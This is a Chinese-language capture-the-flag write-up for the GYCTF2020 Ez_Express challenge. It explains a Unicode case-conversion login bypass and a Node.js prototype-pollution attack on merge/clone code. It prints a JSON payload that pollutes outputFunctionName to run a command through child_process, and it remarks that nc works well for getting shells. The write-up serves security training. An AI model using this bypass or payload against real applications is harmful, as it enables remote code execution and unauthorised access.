




# [GYCTF2020]Ez_Express

## 知识点

`javascript大小写绕过`

`nodejs原型链污染`

## 解题

进入首页给了一个登录框，要求登录大写为`ADMIN`，猜测使用`javascript`大小写转换特性绕过，[参考原理](https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html)

> "ı".toUpperCase() == 'I'，"ſ".toUpperCase() == 'S'
>
> "K"的“小写”字符是k，也就是"K".toLowerCase() == 'k'



则使用`admın`注册登录，扫描目录时发现了`www.zip`，进行代码审计发现为`js`代码

思路：`js`审计如果看见`merge`，`clone`函数，可以往原型链污染靠，跟进找一下关键的函数，找污染点

切记一定要让其`__proto__`解析为一个键名

总结：

1. 原型链污染属于前端漏洞应用，基本上需要源码审计功力来进行解决；找到`merge()`,`clone()`只是确定漏洞的开始
2. 进行审计需要以达成RCE为主要目的。通常`exec`, `return`等等都是值得注意的关键字。
3. 题目基本是以弹shell为最终目的。目前来看很多`Node.js`传统弹`shell`方式并不适用`wget`,`curl`,以及我两道题都用到的`nc`比较适用。

查看源代码

```js
const merge = (a, b) => {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}
const clone = (a) => {
  return merge({}, a);
}
```

在`/route/index.js`中用了`merge()`和`clone()`，发现使用原型链，往下找`clone()`的位置

```js
router.post('/action', function (req, res) {
  if(req.session.user.user!="ADMIN"){res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")} 
  req.session.user.data = clone(req.body);
  res.end("<script>alert('success');history.go(-1);</script>");  
});
```

查看登录条件

```js
router.post('/login', function (req, res) {
  if(req.body.Submit=="register"){
   if(safeKeyword(req.body.userid)){
    res.end("<script>alert('forbid word');history.go(-1);</script>") 
   }
    req.session.user={
      'user':req.body.userid.toUpperCase(),
      'passwd': req.body.pwd,
      'isLogin':false
    }
    res.redirect('/'); 
  }
  else if(req.body.Submit=="login"){
    if(!req.session.user){res.end("<script>alert('register first');history.go(-1);</script>")}
    if(req.session.user.user==req.body.userid&&req.body.pwd==req.session.user.passwd){
      req.session.user.isLogin=true;
    }
    else{
      res.end("<script>alert('error passwd');history.go(-1);</script>")
    }
  
  }
  res.redirect('/'); ;
});
```

就可以使用`admın`注册登录，登录后如下图所示



找一下可以污染后显示的参数，发现可以污染`outputFunctionName`

```js
router.get('/info', function (req, res) {
  res.render('index',data={'user':res.outputFunctionName});
})
```

使用`payload`污染参数，抓包后修改`Content-Type`为`application/json`,`POST传参`

```
{"lua":"a","__proto__":{"outputFunctionName":"a=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag')//"},"Submit":""}
```

然后进入`/info`获取`flag`




